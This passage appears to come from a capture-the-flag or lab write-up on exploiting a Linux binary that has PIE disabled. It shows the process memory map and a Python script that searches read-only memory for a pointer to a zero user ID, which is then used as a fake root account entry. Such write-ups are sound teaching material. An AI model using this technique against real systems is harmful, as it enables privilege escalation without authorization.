 PIE is disabled. This means code will be loaded always to the same addresses. This looks like the best place to look for pointer to 
user account as its value will be same every time app launched.

Module entry point is 0x400000, we can see it in process mapping:
```bash hl_lines="2"
$ cat /proc/5539/maps
00400000-00401000 r--p 00000000 08:01 1209740                            /home/kali/Downloads/app
00401000-00402000 r-xp 00001000 08:01 1209740                            /home/kali/Downloads/app
00402000-00403000 r--p 00002000 08:01 1209740                            /home/kali/Downloads/app
00403000-00404000 r--p 00002000 08:01 1209740                            /home/kali/Downloads/app
00404000-00405000 rw-p 00003000 08:01 1209740                            /home/kali/Downloads/app
7f70658c0000-7f70658c3000 rw-p 00000000 00:00 0 
7f70658c3000-7f70658e9000 r--p 00000000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f70658e9000-7f7065a40000 r-xp 00026000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a40000-7f7065a95000 r--p 0017d000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a95000-7f7065a99000 r--p 001d1000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a99000-7f7065a9b000 rw-p 001d5000 08:01 440309                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f7065a9b000-7f7065aa8000 rw-p 00000000 00:00 0 
7f7065ac9000-7f7065acb000 rw-p 00000000 00:00 0 
7f7065acb000-7f7065acc000 r--p 00000000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065acc000-7f7065af1000 r-xp 00001000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065af1000-7f7065afb000 r--p 00026000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065afb000-7f7065afd000 r--p 00030000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f7065afd000-7f7065aff000 rw-p 00032000 08:01 440306                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7ffe04ef5000-7ffe04f16000 rw-p 00000000 00:00 0                          [stack]
7ffe04fc4000-7ffe04fc8000 r--p 00000000 00:00 0                          [vvar]
7ffe04fc8000-7ffe04fca000 r-xp 00000000 00:00 0                          [vdso]
```

Script to find address that points to memory that can be interpreted as user account with id 0:

```python title="script.py"
# start scan of memory at base address of the application
module_start = 0x400000
# we only interested in readonly memory (24 bytes padding for safety as user structure is 24 bytes long)
module_end = 0x404000 - 24

# iterate over memory addresses
for i in range(module_start, module_end):
    # read value stored at i (unpack convertes from little endian byte array into int)
    addr = unpack(elfexe.read(i, 8))
    # if value i is a number in range module_start..module_end it can be interpreted as address.
    # Also check value that address i is pointing to, target application will treat that value as user ID.
    # We are looking for user ID equal to 0
    if module_start < addr < module_end and unpack(elfexe.read(addr, 8)) == 0:
        fake_root_entry = i
        break

# use fake user entry that we found to calculate user account details
fake_account_address = unpack(elfexe.read(fake_root_entry, 8))
# first field of user structuture is user ID 8 bytes
fake_account_id = unpack(elfexe.read(fake_account_address, 8))
```
